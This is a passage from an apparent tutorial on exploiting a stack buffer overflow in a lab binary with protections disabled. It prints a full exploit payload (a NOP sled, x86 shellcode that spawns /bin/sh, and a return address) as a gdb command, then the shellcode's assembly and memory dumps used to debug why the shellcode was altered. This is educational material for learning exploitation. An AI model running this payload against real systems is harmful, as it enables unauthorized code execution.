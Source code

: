 We will take as **Fake Return Address** , an address which falls in of our **<span style="color:pink">NOPSled</span>** middle located in the variable **buffer[<span style="color:red">128</span>]** . In this case, it is not really necessary. Indeed the memory does not move because we have deactivated all the protections, but it does not hurt to get used to the good reflexes don't you think?
{: .text-justify}

```shell
gdb-peda$ r $(python -c 'print "\x90"*117+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x80\xd5\xff\xff"')

Program received signal SIGSEGV, Segmentation fault.
[...]
 0xffffd5cd: push 0x6e69622f
 0xffffd5d2: mov ebx,esp
 0xffffd5d4: das
=> 0xffffd5d5: bound ebp,QWORD PTR [ecx+0x6e]
 0xffffd5d8: das
 0xffffd5d9: das
 0xffffd5da: jae 0xffffd644
 0xffffd5dc: add BYTE PTR [eax],al
Stopped reason: SIGSEGV
0xffffd5d5 in ?? ()
```
So why did it crash?.. To understand, the final displayed **Code** part has to carefully be studied… Doesn't anything bother you? Remember, the code for our exploit should look like this:
{: .text-justify}

```shell
xor %eax,%eax
push %eax
push $0x68732f2f
push $0x6e69622f
mov %esp,%ebx
mov %eax,%ecx
mov %eax,%edx
mov $0xb,%al
int $0x80
xor %eax,%eax
inc %eax
int $0x80
```

And yes, it did changed a bit... If we look at the state of the memory at the level of our **EIP($eip)**, which thanks to our trickery points somewhere in the space reserved for the **<span style="color:red">128</span>** variable, we realize that the memory has been altered (_the **"mov %eax,%ecx"** hexa part and below_)!
{: .text-justify}

```shell
gdb-peda$ x/6xg $eip-20
            <------- 1 ------- <------- 2 -------
              _SHC____--NOPS--   ______SHC_______
0xffffd5c1: 0x6850c03190909090 0x69622f6868732f2f
              *altered**_SHC__             **alt*
0xffffd5d1: 0x2f6e69622fe3896e 0x000000000068732f
0xffffd5e1: 0xb0ffffd6a4ffffd7 0x10f7e3d39dffffd6
```
